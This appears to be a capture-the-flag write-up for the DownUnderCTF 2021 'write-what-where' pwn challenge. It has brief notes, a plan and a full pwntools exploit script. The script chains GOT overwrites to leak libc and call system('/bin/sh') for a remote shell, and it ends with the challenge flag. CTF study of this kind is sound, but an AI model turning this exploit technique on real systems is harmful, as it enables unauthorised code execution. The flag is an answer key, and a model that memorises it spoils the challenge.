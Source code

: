 ```yaml
---
title: write-what-where
date: 2021-09-25
categories: [pwn]
tags: [downunderctf2021]
toc: false
---
```


#### Notes:
- A classic write-what-where challenge, only this time we get only a single write at a specified location

#### Plan:
- Try to overwrite something that can "restart" the program, giving us multiple writes to work with
- Since we have partial RELRO, we can target the GOT and overwrite something there with something useful
- I overwrote exit.got with 0x4011ca, which is just a little bit into main() (to avoid setvbuf getting called), which gives us the ability to do another www primitive
- Since setvbuf() uses stdin, if we overwrite stdin with puts.got and overwrite setvbuf with puts.plt, we get a puts(puts) libc leak. 
- Then we can overwrite exit() to call main() but this time include init() so that it also calls setvbuf giving us our leak
- Now that we have our leak, calculated offsets, and also a way to do www multiple times, we repeat the steps discussed above but this time overwrite setvbuf with system("/bin/sh\x00")

#### main():

![Snippet of main()](/assets/img/ductf2021/main.png)

#### PoC:

```python3
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host pwn-2021.duc.tf --port 31920 ./write-what-where
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./write-what-where')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'pwn-2021.duc.tf'
port = int(args.PORT or 31920)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *0x40123f
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
io = start()

def www(what, where):
    io.recvuntil(b'what?')
    io.send(what)
    io.recvuntil(b'where?')
    io.send(where)

www(p32(0x4011ca), str(exe.got['exit']))
www(p32(exe.got['puts']), str(exe.got['stdin']))
www(p32(0x0), str(exe.got['stdin']+4))
www(p32(exe.plt['puts']), str(exe.got['setvbuf']))
www(p32(0x0), str(exe.got['setvbuf']+4))
www(p32(0x4011a9), str(exe.got['exit']))

io.recvline()
leak = io.recvline().rstrip()

leak_val = int.from_bytes(leak, 'little')
print('libc leak: ', hex(leak_val))

libc_base = leak_val-0x809d0
print('libc base:', hex(libc_base))
system = libc_base + 0x04fa60
str_bin_sh = libc_base + 0x1abf05
print('system: ', hex(system))

system = bytearray.fromhex(format(system, 'x'))

binsh = bytearray.fromhex(format(str_bin_sh, 'x'))

www(p32(0x4011ca), str(exe.got['exit']))

www(binsh[5].to_bytes(1,'little')+binsh[4].to_bytes(1,'little')+binsh[3].to_bytes(1,'little')+binsh[2].to_bytes(1,'little'), str(exe.got['stdin']))

www(binsh[1].to_bytes(1,'little')+binsh[0].to_bytes(1,'little')+b'\x00'+b'\x00', str(exe.got['stdin']+4))

www(system[5].to_bytes(1,'little')+system[4].to_bytes(1,'little')+system[3].to_bytes(1,'little')+system[2].to_bytes(1,'little'), str(exe.got['setvbuf']))

www(system[1].to_bytes(1,'little')+system[0].to_bytes(1,'little')+b'\x00'+b'\x00', str(exe.got['setvbuf']+4))

www(p32(0x4011a9), str(exe.got['exit']))

io.interactive()

# DUCTF{arb1tr4ry_wr1t3_1s_str0ng_www}
```